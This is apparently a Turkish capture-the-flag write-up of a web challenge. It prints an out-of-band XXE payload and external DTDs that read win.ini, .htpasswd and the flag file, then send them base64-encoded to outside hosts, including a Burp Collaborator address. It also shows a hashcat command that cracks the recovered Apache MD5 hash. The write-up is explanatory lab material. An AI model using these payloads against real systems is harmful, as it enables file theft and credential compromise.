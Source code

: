 ### At (Web 300)

![soru](soru.png)

Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


![adim1](adim_1.png)


Formu doldurup gönderdim. Sonra bu isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


![adim2](adim_2.png)   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


![adim7](adim_7.png)   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) Beşinci satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) Altıncı ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.



**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
![teambios](team-bios.jpg)  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

![adim9](adim_9.png) 



**ex.dtd'yi barındıran sunucum:**

![adim8](adim_8.png) 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

![adim9](adim_10.png) 



Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  
![adim6](adim_6.png)


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.

![adim4](adim_4.png)


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htpasswd'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htpasswd` dosyasının içeriği:
![adim11](adim_11.png)

HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**

![adim12](adim_12.png)

Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.

![adim13](adim_13.png)

Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

![flag](flag.png)



Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

